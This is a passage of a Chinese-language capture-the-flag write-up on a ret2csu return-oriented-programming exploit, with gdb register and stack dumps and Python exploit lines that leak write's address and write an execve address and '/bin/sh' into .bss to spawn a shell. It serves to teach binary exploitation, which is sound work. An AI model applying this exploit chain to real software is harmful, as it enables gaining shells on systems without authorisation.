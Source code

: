`gdb: si` 进`0x40061a`后，一步步`ni... si... ni` 到`csu: .text:400614 jnz short loc_400600`时的寄存器，栈如下。这里的栈可以分析出下次执行`csu .text:400624 retn`时，`pop rip`时rsp指向的地址。

```assembly
; 断在csu 400609 call qword ptr [r12+rbx*8]; 部分输出删去
$rbx   : 0x0               ; rbx = 0
$rdx   : 0x8               ; rdx = 8; i.e. 3rd para = 8
$rsp   : 0x00007ffc14c027c8 → "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$rbp   : 0x1               
$rsi   : 0x0000000000601018 → 0x00007f5537cadf20 → <write+0> mov eax, DWORD PTR fs:0x18 ; rsi = 601018 0x00007f5537cadf20 为write的实际地址 i.e. 2nd para = actual addr of write
$rdi   : 0x1               ; rdi = 1; i.e. 1st para = stdout
$rip   : 0x0000000000400609  →  <__libc_csu_init+73> call QWORD PTR [r12+rbx*8]
$r12   : 0x0000000000601018 → 0x00007f5537cadf20 → <write+0> mov eax, DWORD PTR fs:0x18; r12 = 601018(.got.plt:601018 off_601018 dq offset write), 存储的值为write的实际地址. i.e. call write@got
$r13   : 0x8               
$r14   : 0x0000000000601018  →  0x00007f5537cadf20  →  <write+0> mov eax, DWORD PTR fs:0x18
$r15   : 0x1
──────────────────── stack ─── ; 执行完 call QWORD PTR [r12+rbx*8] 之后 rsp 不变
0x00007ffc14c027c8│+0x0000: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"  ← $rsp
0x00007ffc14c027d0│+0x0008: 0x6161616161616161 ; call 后面的 add rsp, 8; 执行完后 rsp 指向这
0x00007ffc14c027d8│+0x0010: 0x6161616161616161 ; 而后有6个pop rsp会6次 += 8
0x00007ffc14c027e0│+0x0018: 0x6161616161616161
0x00007ffc14c027e8│+0x0020: 0x6161616161616161
0x00007ffc14c027f0│+0x0028: 0x6161616161616161
0x00007ffc14c027f8│+0x0030: 0x6161616161616161
0x00007ffc14c02800│+0x0038: 0x0000000000400587  →  <main+0> push rbp ; 到执行 400624 retn 时rsp指向这
─────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400606 <__libc_csu_init+70> mov    edi, r15d
 →   0x400609 <__libc_csu_init+73> call   QWORD PTR [r12+rbx*8] ; 断在csu 0x400609 call指令处
     0x40060d <__libc_csu_init+77> add    rbx, 0x1
─────────────────────────────────────────────────────────────── arguments (guessed) ────
*[r12+rbx*8] (
   $rdi = 0x0000000000000001,
   $rsi = 0x0000000000601018 → 0x00007f5537cadf20 → <write+0> mov eax, DWORD PTR fs:0x18,
   $rdx = 0x0000000000000008
)
```

- 从栈可以看到，执行完 `csu:  0x400609 call`之后，`rsp`指向`0x00007ffc14c027c8`，后面会有1次`add rsp, 8`, 6次`pop`，故`rsp`会`+=0x38`，然后再执行`400624 retn`，将`0x00007ffc14c02800`指向的值赋值给`rip`
- `0x38`分析方式2：`gdb ni`到`400624 retn`，看`rsp`的值与`400609 call`的`rsp`的值的差值。

## 2nd csu

```python
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + b'/bin/sh\x00')  # 发送了 8 + 8 = 16 个字符
```

- 相当于执行了

```python
read@got(0, bss_base, 16) # 从stdin中输入16个字符，写入到 bss_base 中 
# 输入了 p64(execve_addr)  '/bin/sh\x00' # p64(execve_addr)存在bss_base, '/bin/sh\x00'存在bss_base+8
```

